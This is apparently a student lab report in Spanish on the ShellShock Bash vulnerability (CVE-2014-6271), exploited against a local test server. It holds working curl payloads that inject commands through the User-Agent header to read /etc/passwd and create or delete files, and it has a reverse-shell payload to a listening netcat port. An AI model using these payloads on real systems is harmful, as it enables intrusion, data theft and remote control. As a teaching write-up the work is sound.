 ```yaml
---
title: ShellShock
cve: CVE-2014-6271
author_1: "Héctor Toral Pallás (798095)"
author_2: "Darío Marcos Casalé (795306)"
---
```


# [CVE-2014-6271](https://nvd.nist.gov/vuln/detail/cve-2014-6271)

La vulnerabilidad `CVE-2014-6271`, también conocida como `ShellShock`, es una vulnerabilidad de seguridad en el intérprete de comandos Bash que permite la ejecución de código arbitrario en un sistema afectado.

Se necesitan dos condiciones para explotar la vulnerabilidad:
1. El proceso de destino debe ejecutar bash
2. El proceso de destino debe obtener entradas de usuario no confiables a través de variables de entorno

El problema surge de un bug en el código fuente del intérprete, ya que el mecanismo
de exportar funciones sólo comprobaba si la cadena comenzaba por `() {`.

```c
...
/* If exported function, define it now. Don't import  
   functions from the environment in privileged mode. */
if (privmode == 0 && read_but_dont_execute == 0 && STREQN("() {", string, 4))) {
  ...
  // Shellshock vulnerabilty is inside
  parse_and_execute(temp_string, name, SEVAL_NONINT | SEVAL_NOHIST);
}
...
```

## Tarea 1

Se ha diseñado una prueba para comprobar la vulnerabilidad de Shellshock. Para ello se ha ejecutado el siguiente script `checkShellShock.sh`:
```bash
#!/bin/bash

# Crear una función y código adicional
var='() { :; }; echo "vulnerable";'

# Exportar la cadena
export var

# lanzar un shell hijo vulnerable
bash_shellshock
```

La salida del script imprime `vulnerable` si el shell es vulnerable al ataque ShellShock. En efecto se ha verificado la vulnerabilidad:
```
root@4f8f7c1d55f1:/$ ./checkShellShock.sh                                             
vulnerable
root@4f8f7c1d55f1:/$
```

Por otro lado, se ha observado que la vulnerabilidad fue parcheada en el shell bash actual. Para ello basta con cambiar el shell que se lanza como hijo. Ahora el mensaje `vulnerable` no aparece:

```
root@4f8f7c1d55f1:/# ./checkShellShock.sh                                             
root@4f8f7c1d55f1:/# 
```

## Tarea 2

### web

Se ha abierto un navegador y se ha accedido a la siguiente URL:

```
http://10.9.0.80/cgi-bin/getenv.cgi
```

La respuesta del servidor contiene el siguiente listado de variables de entorno.

```
****** Environment Variables ******
HTTP_HOST=10.9.0.80
HTTP_USER_AGENT=Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
HTTP_ACCEPT=text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
HTTP_ACCEPT_LANGUAGE=en-US,en;q=0.5
HTTP_ACCEPT_ENCODING=gzip, deflate
HTTP_CONNECTION=keep-alive
HTTP_UPGRADE_INSECURE_REQUESTS=1
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
SERVER_SIGNATURE=<address>Apache/2.4.41 (Ubuntu) Server at 10.9.0.80 Port 80</address>
SERVER_SOFTWARE=Apache/2.4.41 (Ubuntu)
SERVER_NAME=10.9.0.80
SERVER_ADDR=10.9.0.80
SERVER_PORT=80
REMOTE_ADDR=10.9.0.1
DOCUMENT_ROOT=/var/www/html
REQUEST_SCHEME=http
CONTEXT_PREFIX=/cgi-bin/
CONTEXT_DOCUMENT_ROOT=/usr/lib/cgi-bin/
SERVER_ADMIN=webmaster@localhost
SCRIPT_FILENAME=/usr/lib/cgi-bin/getenv.cgi
REMOTE_PORT=42824
GATEWAY_INTERFACE=CGI/1.1
SERVER_PROTOCOL=HTTP/1.1
REQUEST_METHOD=GET
QUERY_STRING=
REQUEST_URI=/cgi-bin/getenv.cgi
SCRIPT_NAME=/cgi-bin/getenv.cgi
```

### curl

`Include Headers`
```bash
curl -v 10.9.0.80/cgi-bin/getenv.cgi
```

`HTTP_USER_AGENT`
```bash
curl -A "my data" -v 10.9.0.80/cgi-bin/getenv.cgi
```

`HTTP_REFERER`
```bash
curl -e "my data" -v 10.9.0.80/cgi-bin/getenv.cgi
```

`HTTP_{CUSTOM_HEADER}`
```bash
curl -H "AAAAAA: BBBBBB" -v 10.9.0.80/cgi-bin/getenv.cgi
```

## Tarea 3

Para lanzar el ataque Shellshock a través del CGI vulnerable se añade una cabecera `Content_type`. La salida del código extra aparecerá en el contenido del mensaje de respuesta del servidor

### Mostrar `/etc/passwd`
```bash
curl -A "() { :; }; echo Content_type: text/plain; echo; /bin/cat /etc/passwd" 10.9.0.80/cgi-bin/getenv.cgi
```
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

### user ID del proceso
```bash
curl -A "() { :; }; echo Content_type: text/plain; echo; /bin/id" 10.9.0.80/cgi-bin/getenv.cgi
```
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Crear fichero en `/tmp`
```bash
curl -A "() { :; }; echo Content_type: text/plain; echo; /bin/touch /tmp/sec" 10.9.0.80/cgi-bin/getenv.cgi
```

### Borrar fichero en `/tmp`
```bash
curl -A "() { :; }; echo Content_type: text/plain; echo; /bin/rm /tmp/sec" 10.9.0.80/cgi-bin/getenv.cgi
```

### Pregunta 1
No es posible, ya que el usuario que ejecuta el script del CGI es `www-data`, que no tiene privilegios de root. Se puede observar en el resultado de la [Tarea 3b](#user-id-del-proceso)

### Pregunta 2
No se puede, porque la codificación de la query string no admite espacios ni carácteres especiales. En su lugar los codifica con un porcentaje y un número, por ejemplo el espacio, cuya codificación es `%20`

```bash	
root@4f8f7c1d55f1:/$ curl -G "10.9.0.80/cgi-bin/getenv.cgi" --data-urlencode "() { :; }; echo Content_type: text/plain; echo; echo hola"
```

```bash
QUERY_STRING=%28%29%20%7B%20%3A%3B%20%7D%3B%20echo%20Content_type%3A%20text%2Fplain%3B%20echo%3B%20echo%20hola
REQUEST_URI=/cgi-bin/getenv.cgi?%28%29%20%7B%20%3A%3B%20%7D%3B%20echo%20Content_type%3A%20text%2Fplain%3B%20echo%3B%20echo%20hola
```

## Tarea 4

### Reverse Shell

Escucha en el puerto 4444 para recibir la conexión de la reverse shell
```bash
nc -nlvp 4444
```

Lanza el ataque Shellshock con el payload de reverse shell.
```bash
curl -A '() { :; }; /bin/bash -i >& /dev/tcp/10.0.2.4/4444 0>&1' 10.9.0.80/cgi-bin/getenv.cgi
```

Hemos usado el script [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) para analizar dentro de la maquina victima posibles vulnerabilidades para escalar privilegios y obtener una shell con permisos de root.

## Referencias 

- [Información](https://mudongliang.github.io/2020/09/17/ruid-euid-suid-usage-in-linux.html) sobre `ruid`, `euid` y `suid`
- Como herramienta auxiliar puede utilizar [explainshell](https://explainshell.com/) para entender el funcionamiento de algunos comandos.